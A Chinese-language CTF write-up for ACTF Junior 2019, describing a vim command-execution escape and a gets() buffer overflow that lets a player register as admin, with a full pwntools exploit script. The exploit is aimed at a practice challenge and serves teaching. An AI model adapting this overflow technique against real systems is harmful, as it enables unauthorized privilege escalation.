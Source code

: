 ```yaml
---
title: ACTF Junior 2019 Official WriteUP of CSUWangj's Challenge
connments: true
date: 2019-02-28 15:55:24
tags: 
	- CTF
	- Crypto
	- Misc
	- Forensics
	- PWN
categories: WriteUp
desc: 
summary: 真香
---
```


日常出锅、、、



# Linux&PWN

## vim

首先要了解vim的几个模式

然后vim在普通模式下是可以执行Linux命令的，然后就可以ls, cat flag之类的了。

感谢各位没有把容器玩坏。

## No_more_gets1

查看[源码](https://github.com/CSUwangj/ACTF_Junior_2019/blob/master/Linux%26PWN/No_more_gets2/src/src.c)，问题出在[第140行（rigist()+12）](https://github.com/CSUwangj/ACTF_Junior_2019/blob/master/Linux%26PWN/No_more_gets1/src/src.c#L140)，passwdbuf在namebuf前面，所以gets的时候可以把namebuf覆盖掉，于是就能强行注册一个密码自己设定的admin。

一个可用的exp（来自给力的学弟）如下：

```python
from pwn import *
import sys
# context.log_level='debug'

if args['REMOTE']:
    sh = remote(sys.argv[1], sys.argv[2])
else:
    sh = process("./a.out")

payload=0x10 * 'a' + p64(0x0) + p64(0x555555555607)

sh.recvuntil("6) Exit")
sh.sendline("3")
#gdb.attach(sh)
#gdb.attach(sh)
sh.recvuntil("Input your name")
sh.sendline('father')
sh.recvuntil('Input your password')
sh.sendline('aaaaaaaaaaaaaaa\0admin\0')
sh.recvuntil("6) Exit")
sh.sendline('2')
sh.sendline('admin')
sh.sendline('aaaaaaaaaaaaaaa')
sh.sendline('4')
print sh.recvuntil('}')
```